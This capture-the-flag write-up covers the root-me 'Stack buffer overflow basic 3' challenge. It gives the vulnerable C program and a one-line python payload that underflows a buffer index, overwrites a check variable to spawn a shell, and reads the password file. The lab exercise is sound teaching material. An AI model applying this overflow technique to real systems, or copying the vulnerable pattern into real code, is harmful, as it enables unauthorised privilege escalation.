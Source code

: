 # ELF x86: Stack buffer overflow basic 3

[root-me challenge](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-3): An intermediate level to familiarize yourself with stack overflows.

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes  
```

Source code:

```text
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```

----

`4*\x08` is going to decrease the value of `count` by `4` to get the `check` variable, which needs to be `0xbffffabc` (mind endian):

```text
app-systeme-ch16@challenge02:~$ cat <(python -c "print '\x08'*4 + '\xbc\xfa\xff\xbf'") - | ./ch16
cat .passwd
```

## Resources

* [Débordement de tampon - dans la pile](https://www.root-me.org/spip.php?article807)
* [François Boisson : Buffer Overflow ou explication de «une faille de type bufferoverflow ...](https://www.youtube.com/watch?v=u-OZQkv2ebw) (YouTube)
* [Stack Bug - Exploitation avancee de buffer overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/FR%20-%20Stack%20Bug%20-%20Exploitation%20avancee%20de%20buffer%20overflow.pdf)
* [Exploiting Stack Buffer Overflows in the Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf)
* [64 Bits Linux Stack Based Buffer Overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%2064%20Bits%20Linux%20Stack%20Based%20Buffer%20Overflow.pdf)
